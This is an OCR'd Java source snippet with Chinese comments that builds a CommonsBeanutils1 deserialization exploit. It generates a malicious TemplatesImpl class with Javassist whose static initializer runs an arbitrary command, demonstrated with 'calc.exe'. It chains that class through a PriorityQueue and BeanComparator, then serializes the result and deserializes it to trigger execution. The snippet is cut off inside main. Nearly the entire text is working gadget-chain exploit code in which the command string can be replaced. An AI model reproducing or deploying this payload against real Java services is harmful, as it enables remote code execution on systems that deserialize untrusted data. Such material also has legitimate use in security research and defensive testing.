 ```java
import java.util.PriorityQueue;

public class CB1 {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static TemplatesImpl generateTemplates(String code) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        // 创建 static 代码块，并插入代码
        cc.makeClassInitializer().insertBefore(code);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        // 转换为bytes
        byte[] classBytes = cc.toBytecode();
        return newTemplatesWithClassBytes(classBytes);
    }

    private static TemplatesImpl newTemplatesWithClassBytes(byte[] classBytes) throws Exception {
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", new byte[][]{classBytes});
        // 进入 defineTransletClasses() 方法需要的条件
        setFieldValue(templates, "_name", "name" + System.nanoTime());
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        return templates;
    }



    public static byte[] getPayload() throws Exception {
        TemplatesImpl obj = generateTemplates("java.lang.Runtime.getRuntime().exec(\"calc.exe\");");

        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        queue.add("1");
        queue.add("1");

        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});

        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        return barr.toByteArray();
    }

    public static void main(String[] args) throws Exception {
        byte[] payload = getPayload();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(payload));
        ois.readObject();
```